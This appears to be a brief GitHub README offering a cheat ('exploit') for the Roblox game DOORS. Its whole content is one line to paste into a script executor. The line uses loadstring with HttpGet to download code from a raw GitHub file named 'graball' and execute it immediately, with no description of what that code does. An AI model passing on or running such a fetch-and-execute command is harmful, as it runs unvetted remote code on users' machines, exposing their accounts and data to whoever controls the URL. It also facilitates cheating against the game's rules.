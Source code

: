 # Best DOORS Exploit Setup

Run this in your executor:
`loadstring(game:HttpGet("https://raw.githubusercontent.com/TheCrazyCatKidz/Doors-Hack/main/graball"))()`
